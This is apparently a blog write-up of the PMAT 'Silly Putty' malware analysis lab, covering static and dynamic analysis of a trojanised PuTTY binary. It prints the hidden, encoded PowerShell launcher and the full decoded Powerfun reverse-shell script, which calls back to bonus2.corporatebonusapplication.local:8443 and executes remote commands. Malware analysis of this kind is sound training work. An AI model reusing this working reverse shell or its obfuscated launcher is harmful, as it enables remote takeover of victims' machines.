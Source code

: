```yaml
---
layout: post
title: 3 PMAT Silly Putty
category : [Reverse, PMAT]
tags: reverse
---
```


# Basic Static Analysis

## Floss 

- Starting by analyzing the binary with floss (minimum length of 8) with `FLOSS.exe -n 8 putty.exe > flossout.txt`

## Pestudio
- sha256 : 0C82E654C09C8FD9FDF4899718EFA37670974C9EEC5A8FC18A167F93CEA6EE83
- ![FLOSS Output](/assets/images/sillyputty/sillyputty-pestudio1.png)

## Virustotal

- ![FLOSS Output](/assets/images/sillyputty/sillyputty-vt.png)

# Basic Dynamic Analysis

- inetsim
- system informer
- procmon
- tcpview

From procmon we get :

```powershell
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('...'))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```

I've replaced the long string by ... for better lecture ^^ .

From cyberchef we can get

- ![FLOSS Output](/assets/images/sillyputty/sillyputty-cyberchef1.png)

```powershell
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
powerfun -Command reverse -Sslcon true
```

## Reverse shell 

- ![FLOSS Output](/assets/images/sillyputty/sillyputty-nc1.png)

- Strange char -> SSL

1. The `Get-Webclient` function creates a WebClient object configured to use default credentials and proxy settings, which can be used to download additional modules.

2. The main `powerfun` function accepts three parameters:
   - `Command`: Determines the connection mode ("bind" or "reverse")
   - `Sslcon`: Enables SSL/TLS encryption
   - `Download`: Controls whether to download and execute additional modules

3. The script establishes a TCP connection to "bonus2.corporatebonusapplication.local" on port 8443 in reverse shell mode, with SSL encryption enabled.

4. It creates an interactive PowerShell session that:
   - Displays a fake PowerShell banner
   - Maintains a persistent connection
   - Executes commands received from the remote server
   - Returns command output and errors back to the attacker
   - Supports downloading and executing additional PowerShell modules

This is a malicious script designed to provide remote access to a compromised system, allowing an attacker to execute arbitrary commands with the privileges of the current user.
